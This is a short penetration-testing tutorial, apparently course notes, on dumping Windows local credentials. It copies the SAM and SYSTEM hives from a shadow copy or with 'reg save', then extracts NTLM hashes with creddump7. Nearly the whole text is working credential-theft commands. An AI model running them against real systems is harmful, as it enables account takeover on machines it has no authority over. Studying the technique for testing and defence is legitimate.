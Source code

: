 # Windows Credentials - SAM database and Decryption.

## Via Shadow Volumes

1. Create a snapshot of the C drive through WMIC launched from an administrative command prompt.

```bash
C:\> wmic shadowcopy call create Volume='C:\'
```

2. Confirm that it worked, running vssadmin and list the existing shadow volumes.

```bash
C:\> vssadmin list shadows
```

3. Once the shadow volume is located, we can copy the SAM database from it's given path in the output of our previous command. 

NOTE :Run this command in a cmd prompt not in powershell

```bash
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\offsec.corp1\Downloads\sam
```

Now that we have copied the database, it is partially encrypted by either RC4 or AES. 

4. The encryption keys are stored in the SYSTEM file, copy it too into the shadow volume.

```bash
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\offsec.corp1\Downloads\system
```

## Via Registery

We can also obtain them from the registry in the HKLM\sam and HKLM\system hives, but administrative permissions are required to read and copy.

```bash
C:\> reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
The operation completed successfully.

C:\> reg save HKLM\system C:\users\offsec.corp1\Downloads\system
The operation completed successfully.
```

## Decryption

The only two tools that can decrypt these files are Mimikatz and Creddump7.

1. Install creddump

```bash
sudo apt install python-crypto
sudo git clone https://github.com/Neohapsis/creddump7
cd creddump7/
```

2. Now inside creddump7 folder, use the pwdump.py python script to decrypt the NTLM hashes.

```bash
python pwdump.py /home/kali/system /home/kali/sam
```

We have successfully decrypted the SAM database and obtained the NTLM password hash for the local administrator account.
